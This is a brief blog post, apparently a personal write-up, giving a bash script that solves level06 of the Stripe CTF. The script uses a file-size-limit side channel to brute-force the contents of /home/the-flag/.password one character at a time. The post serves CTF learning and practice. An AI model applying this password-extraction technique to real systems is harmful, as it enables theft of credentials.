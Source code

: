 ```yaml
---
title: "level06 stripe ctf"
date: 2012-02-29 10:05:46
tags: ctf
---
```


<p>
{% highlight bash %}
#!/usr/bin/env bash

ulimit -f 1 # set file size limit to 1024 bytes

s=""
while true; do 
  for ((i=32; i < 127; i++)); do
    rm f o
    c=$(ruby -e "print ${i}.chr")
    t="${s}${c}..."
    echo "${t}"

    ruby -e "print 'A' * (1024-33-${#t}+3)" > f;
    /levels/level06 /home/the-flag/.password "${t}" 2>>f 1>o;

    sleep 0.1 # INCREASE LIBERALLY IF FALSE POSITIVES
   
    if [ ! -s o ]; then # if file o is empty
      s="${s}${c}"
      echo -n $c
      break
    fi
  done
done
{% endhighlight %}
</p>

